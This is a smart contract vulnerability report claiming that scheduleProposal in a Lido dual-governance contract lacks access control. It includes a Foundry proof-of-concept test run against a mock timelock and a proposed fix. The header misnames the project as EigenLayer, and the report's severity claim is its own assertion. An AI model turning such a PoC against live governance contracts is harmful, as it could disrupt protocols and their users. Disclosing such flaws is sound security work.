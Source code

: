 
# 🛡️ Smart Contract Vulnerability Report
**EigenLayer**:

## 📛 Vulnerability Title 

Unauthorized Proposal Scheduling via Missing Access Control

## 🗂 Report Type

Smart Contract


## 🎯 Target

https://github.com/lidofinance/dual-governance/blob/0d31f5b3dbe0a553887604a2d5755d14033b8e3d/contracts/TimelockedGovernance.sol



## 🗒️Asset

TimelockedGovernance.sol



## 🚨 Rating

Severity: Medium  ~ High  

Impact: Medium 



## 📄 Description


This vulnerability allows an attacker to schedule governance proposals without proper authorization. Since proposals typically involve important decisions such as smart contract upgrades, asset transfers, or changes to sensitive protocol settings, the ability to schedule them prematurely or unintentionally poses a significant risk.




## 🧨 Impact


1. An attacker can schedule submitted proposals without authorization and at will. This can lead to the premature or 
 
2. unintended execution of sensitive proposals, such as:

    Executing critical changes in smart contracts,

    Transferring funds,

    Or applying sensitive protocol settings.





## 🔍 Vulnerability Details

```solidity

Line: 64

contract : TimelockedGovernance.sol


     function scheduleProposal(uint256 proposalId) external {

        TIMELOCK.schedule(proposalId);
    }

```





## 🧪 Proof of Concept (PoC)


```solidity

// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimelockedGovernance.sol";
import "../lib/libraries/ExternalCalls.sol";
import "../lib/interfaces/ITimelock.sol";



import {Duration} from "../../src/types/Duration.sol";
import {Timestamp} from "../../src/types/Timestamp.sol";    
import {Status as ProposalStatus} from "../libraries/ExecutableProposals.sol";


/*
We created the MockTimelock contract solely for testing purposes, to allow us to create a fake proposal and then call the scheduleProposal function on it.
The real timelock logic didn’t need to be fully replicated — we just needed a way to generate a proposalId and allow it to be scheduled, so we could test access control, timing, and status behavior.
*/
contract MockTimelock is ITimelock {
    uint256 public proposalCounter;
    uint256 public lastScheduledProposal;


    function submit(address, ExternalCall[] calldata) external override returns (uint256) {
        proposalCounter++;
        return proposalCounter;
    }

    function schedule(uint256 proposalId) external override {
        lastScheduledProposal = proposalId;
    }

    function execute(uint256) external override {}

    function cancelAllNonExecutedProposals() external override {}

    function canSchedule(uint256) external view override returns (bool){} 
    function canExecute(uint256) external view override returns (bool) {}

    function getAdminExecutor() external view override returns (address) {}
    function setAdminExecutor(address) external override {}

    function getGovernance() external view override returns (address) {}

    function setGovernance(address) external override {}

    function getProposal(uint256) external view override returns (ProposalDetails memory, ExternalCall[] memory) {}


    function getProposalDetails(uint256) external view override returns (ProposalDetails memory) {}

    function getProposalCalls(uint256) external view override returns (ExternalCall[] memory) {}
    function getProposalsCount() external view override returns (uint256) {}

    function getAfterSubmitDelay() external view override returns (Duration) {}

    function getAfterScheduleDelay() external view override returns (Duration) {}

    function setAfterSubmitDelay(Duration) external override {}

    function setAfterScheduleDelay(Duration) external override {}

    function transferExecutorOwnership(address, address) external override {}
}




contract TimelockedGovernanceTest is Test {
    TimelockedGovernance public timelock;
    MockTimelock public mockTimelock;

    address public governance = address(0x001);
    address public user1 = address(0x002);
    address public user2 = address(0x003);

    uint256 public proposalId; 



// Here, for example, the governance has submitted a proposal.
    function setUp() public {
        mockTimelock = new MockTimelock();
        timelock = new TimelockedGovernance(governance,mockTimelock);
        
        ExternalCall[] memory calls=new ExternalCall[] (1);
        calls[0] = ExternalCall({
            target: address(0xdead),
            value: 0,
            payload: ""
        });

        vm.startPrank(governance);
        proposalId = timelock.submitProposal(calls, "initial metadata");
        vm.stopPrank();
        
    }

/// @notice This test demonstrates that the `scheduleProposal` function has no access control.
/// Any user can call it after a proposal has been submitted by the governance.
/// It proves that the scheduling action is permissionless, regardless of who created the proposal.
/// use this 👻  forge compile | forge test -vvv
    function test_scheduleProposal() public {
        // user1 schedules the proposal for the first time
        // This simulates a legitimate scheduling action by any arbitrary user
        vm.startPrank(user1);
        timelock.scheduleProposal(proposalId);
        console.log("user1 can call scheduleProposal()");
        vm.stopPrank();

        // user2 also schedules the same proposal
        // This shows that multiple users can independently call the same function
        vm.startPrank(user2);
        timelock.scheduleProposal(proposalId);
        console.log("user2 can also call scheduleProposal()");
        vm.stopPrank();
    }
}

```

## How to fix it (Recommended)

1. The function _checkCallerIsGovernance() is already defined in the TimelockedGovernance contract and checks that msg.sender == GOVERNANCE.


```solidity

function scheduleProposal(uint256 proposalId) external {
    _checkCallerIsGovernance();  
    TIMELOCK.schedule(proposalId);
    emit ProposalScheduled(msg.sender, proposalId); 
}

```




2. Adding an event like ProposalScheduled is useful for better tracking of the operation on the blockchain:


```solidity

event ProposalScheduled(address indexed caller, uint256 indexed proposalId);

```


## 🔗 References

- https://github.com/lidofinance/dual-governance/blob/0d31f5b3dbe0a553887604a2d5755d14033b8e3d/contracts/TimelockedGovernance.sol




